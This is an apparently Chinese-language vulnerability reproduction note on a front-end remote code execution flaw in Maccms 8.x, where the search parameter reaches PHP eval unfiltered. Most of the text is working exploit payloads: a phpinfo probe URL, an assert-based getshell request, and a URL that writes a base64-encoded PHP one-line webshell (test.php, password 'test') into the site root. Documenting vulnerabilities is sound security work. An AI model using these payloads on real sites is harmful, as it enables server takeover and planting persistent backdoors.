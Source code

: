 # Maccms 8.x(苹果cms)命令执行漏洞

### 一、漏洞简介

搜索页面搜索参数过滤不严

导致直接eval执行PHP语句，前台命令执行可getshell

### 二、漏洞影响

Maccms 8.x

### 三、复现过程

**payload：**


```
http://url/index.php?m=vod-search&wd={if-A:phpinfo()}{endif-A}
```

![](images/15891211472668.png)


getshell payload（a）:


```
http://url/index.php?m=vod-search&wd={if-A:assert($_POST[a])}{endif-A}

POST

a=phpinfo()
```

![](images/15891211645779.png)


写入网站根目录一句话木马文件payload（文件名：test.php，密码：test）:


```bash
http://url/index.php?m=vod-search&wd={if-A:print(fputs%28fopen%28base64_decode%28dGVzdC5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW3Rlc3RdKTsgPz4%29%29)}{endif-A}
```